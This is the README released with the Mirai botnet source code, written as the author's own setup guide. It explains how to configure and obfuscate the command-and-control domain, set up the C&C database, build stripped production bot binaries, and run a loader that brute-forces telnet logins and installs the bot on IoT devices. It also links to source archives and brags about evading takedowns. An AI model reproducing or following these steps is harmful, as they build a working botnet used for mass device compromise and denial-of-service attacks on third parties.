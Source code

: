 #Infrastructure Overview
- To establish connection to CNC, bots resolve a domain (resolv.c/resolv.h) and connect to that IP address
- Bots brute telnet using an advanced SYN scanner that is around 80x faster than the one in qbot, and uses almost 20x less resources. When finding bruted result, bot resolves another domain and reports it. This is chained to a separate server to automatically load onto devices as results come in.
- Bruted results are sent by default on port 48101. The utility called scanListen.go in tools is used to receive bruted results (I was getting around 500 bruted results per second at peak). If you build in debug mode, you should see the utitlity scanListen binary appear in debug folder.

Mirai uses a spreading mechanism similar to self-rep, but what I call "real-time-load". Basically, bots brute results, send it to a server listening with scanListen utility, which sends the results to the loader. This loop (brute -> scanListen -> load -> brute) is known as real time loading.

The loader can be configured to use multiple IP address to bypass port exhaustion in linux (there are limited number of ports available, which means that there is not enough variation in tuple to get more than 65k simultaneous outbound connections - in theory, this value lot less). I would have maybe 60k - 70k simultaneous outbound connections (simultaneous loading) spread out across 5 IPs.

#Configuring Bot
Bot has several configuration options that are obfuscated in (table.c/table.h). In ./mirai/bot/table.h you can find most descriptions for configuration options. However, in ./mirai/bot/table.c there are a few options you *need* to change to get working.

- TABLE_CNC_DOMAIN - Domain name of CNC to connect to - DDoS avoidance very fun with mirai, people try to hit my CNC but I update it faster than they can find new IPs, lol. Retards :)
- TABLE_CNC_PORT - Port to connect to, its set to 23 already
- TABLE_SCAN_CB_DOMAIN - When finding bruted results, this domain it is reported to
- TABLE_SCAN_CB_PORT - Port to connect to for bruted results, it is set to 48101 already.

In ./mirai/tools you will find something called enc.c - You must compile this to output things to put in the table.c file

Run this inside mirai directory
```
./build.sh debug telnet
```
You will get some errors related to cross-compilers not being there if you have not configured them. This is ok, won't affect compiling the enc tool

Now, in the ./mirai/debug folder you should see a compiled binary called enc. For example, to get obfuscated string for domain name for bots to connect to, use this:
```
./debug/enc string fuck.the.police.com
```
The output should look like this
```
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22
```

To update the TABLE_CNC_DOMAIN value for example, replace  that long hex string with the one provided by enc tool. Also, you see "XOR'ing 20 bytes of data". This value must replace the last argument tas well. So for example, the table.c line originally looks like this

```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
```

Now that we know value from enc tool, we update it like this
```
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com
```

Some values are strings, some are port (uint16 in network order / big endian).

#Configuring the CNC
```
apt-get install mysql-server mysql-client
```
CNC requires database to work. When you install database, go into it and run following commands:
http://pastebin.com/86d0iL9g

This will create database for you. To add your user,
```
INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');
```

Now, go into file ./mirai/cnc/main.go

Edit these values

```
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"
```

To the information for the mysql server you just installed


#Setting Up Cross Compilers
Cross compilers are easy, follow the instructions at this link to set up. You must restart your system or reload .bashrc file for these changes to take effect.

http://pastebin.com/1rRCc3aD

#Building CNC+Bot
The CNC, bot, and related tools:
1) http://santasbigcandycane.cx/mirai.src.zip - ### THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP!
![Alt text](http://i.imgur.com/BVc7qJs.png "Optional title")


2) http://santasbigcandycane.cx/loader.src.zip - ### THESE LINKS WILL NOT LAST FOREVER, 2 WEEKS MAX - BACK IT UP![/b]

How to build bot + CNC
In mirai folder, there is build.sh script.

```
./build.sh debug telnet
```
Will output debug binaries of bot that will not daemonize and print out info about if it can connect to CNC, etc, status of floods, etc. Compiles to ./mirai/debug folder

```
./build.sh release telnet
```
Will output production-ready binaries of bot that are extremely stripped, small (about 60K) that should be loaded onto devices. Compiles all binaries in format: "mirai.$ARCH" to ./mirai/release folder


[size=x-large]Building Echo Loader[/size]
Loader reads telnet entries from STDIN in following format: 
[code]ip:port user:pass[/code]
It detects if there is wget or tftp, and tries to download the binary using that. If not, it will echoload a tiny binary (about 1kb) that will suffice as wget.

```
./build.sh
```
Will build the loader, optimized, production use, no fuss. If you have a file in formats used for loading, you can do this
```
cat file.txt | ./loader
```

Remember to ulimit!

##Also:
Just so it's clear, I'm not providing any kind of 1 on 1 help tutorials or shit, too much time. All scripts and everything are included to set up working botnet in under 1 hours. I am willing to help if you have individual questions (how come CNC not connecting to database, I did this this this blah blah), but not questions like "My bot not connect, fix it"


